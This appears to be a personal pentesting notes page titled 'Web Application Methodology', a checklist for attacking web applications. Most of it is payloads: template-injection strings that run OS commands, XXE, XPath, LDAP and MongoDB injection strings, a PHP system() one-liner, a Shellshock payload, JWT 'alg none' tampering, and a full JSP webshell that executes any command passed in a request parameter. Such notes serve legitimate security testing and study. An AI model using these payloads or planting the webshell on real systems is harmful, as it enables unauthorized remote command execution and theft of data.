 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


#container {
  float: left;
  margin: 0 -340px 0 0;
  width: 100%;
}

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }}</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>


g0tmilku
